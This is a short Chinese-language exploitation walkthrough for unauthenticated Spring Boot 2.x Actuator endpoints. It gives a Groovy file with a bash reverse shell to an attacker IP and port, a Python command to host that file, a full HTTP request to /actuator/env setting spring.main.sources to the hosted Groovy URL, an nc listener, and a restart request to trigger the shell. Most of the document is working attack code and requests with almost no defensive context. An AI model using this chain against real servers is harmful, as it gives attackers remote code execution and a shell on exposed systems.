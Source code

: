 spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



##### 利用实例

编写groovy文件并将其放在http服务根目录下

```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/192.168.233.242/1234 0>&1")
```



使用python开启http服务

```
python2  -m  SimpleHTTPServer  80
```



以POST的方式向/actuator/env请求，设置spring.main.sources为groovy的url地址

请求报文如下

```
POST /actuator/env HTTP/1.1
Host: 192.168.233.242:9098
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 83

{"name":"spring.main.sources","value":"http://192.168.233.242:8080/example.groovy"}
```

![image-20210831175940842](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831175940842.png)



在攻击主机上监听1234端口

```
nc -lvvp 1234
```



然后向/actuator/restart请求重启项目

![image-20210831180134395](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831180134395.png)

